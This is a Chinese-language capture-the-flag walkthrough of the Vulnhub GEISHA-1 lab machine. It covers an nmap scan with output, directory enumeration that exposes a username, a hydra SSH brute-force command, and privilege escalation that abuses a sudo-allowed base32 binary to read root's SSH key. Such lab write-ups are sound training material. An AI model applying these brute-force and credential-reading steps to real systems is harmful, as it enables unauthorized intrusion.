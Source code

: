 ```yaml
---

title: Vulnhub 481 GEISHA-1
date: 2020-05-13
---
```


考点：hydra,GTFOBins 

靶机链接：<https://www.vulnhub.com/entry/geisha-1,481/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| GEISHA-1   | 10.0.2.36 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.36   
$ sudo nmap -v -A -p- $rip
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1b:f2:5d:cd:89:13:f2:49:00:9f:8c:f9:eb:a2:a2:0c (RSA)
|   256 31:5a:65:2e:ab:0f:59:ab:e0:33:3a:0c:fc:49:e0:5f (ECDSA)
|_  256 c6:a7:35:14:96:13:f8:de:1e:e2:bc:e7:c7:66:8b:ac (ED25519)
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Geisha
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/http LiteSpeed httpd
|_http-title: Geisha
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=geisha/organizationName=webadmin/countryName=US
| Issuer: commonName=geisha/organizationName=webadmin/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-09T14:01:34
| Not valid after:  2022-05-09T14:01:34
| MD5:   6df2 adf3 8254 f954 1f65 b502 0e94 5985
|_SHA-1: bd05 448c fa9f 3d8a a040 3396 8676 c64d 0f96 9993
|_ssl-date: TLS randomness does not represent time
|_http-server-header: LiteSpeed
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
7125/tcp open  http     nginx 1.17.10
|_http-title: Geisha
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.17.10
8088/tcp open  http     LiteSpeed httpd
|_http-title: Geisha
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: LiteSpeed
9198/tcp open  http     SimpleHTTPServer 0.6 (Python 2.7.16)
|_http-title: Geisha
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/2.7.16

```

端口21无有用信息

### WEB测试

#### 端口80

无有用信息

#### 端口7080

无有用信息

#### 端口7125

`dirb`一顿输出

![1](https://static.iihack.com/vulnhub/481/1.jpg)

下载 http://10.0.2.36:7125/passwd发现存在用户`geisha`

#### 端口8088

无有用信息

#### 端口9198

无有用信息

## 获得权限

根据上面得到的用户名，爆破下ssh

```bash
$ hydra -l geisha -P /usr/share/wordlists/rockyou.txt -f 10.0.2.36 ssh
```

![2](https://static.iihack.com/vulnhub/481/2.jpg)

爆破成功




## 提权

![3](https://static.iihack.com/vulnhub/481/3.jpg)



[GTFOBins](https://gtfobins.github.io/gtfobins/base32/)走起

![4](https://static.iihack.com/vulnhub/481/4.jpg)

不能执行命令，但是可以root权限读取文件

那就读取一下root ssh登录认证密钥吧

![5](https://static.iihack.com/vulnhub/481/5.jpg)

保存为id_rsa，修改权限，登录root用户

![6](https://static.iihack.com/vulnhub/481/6.jpg)

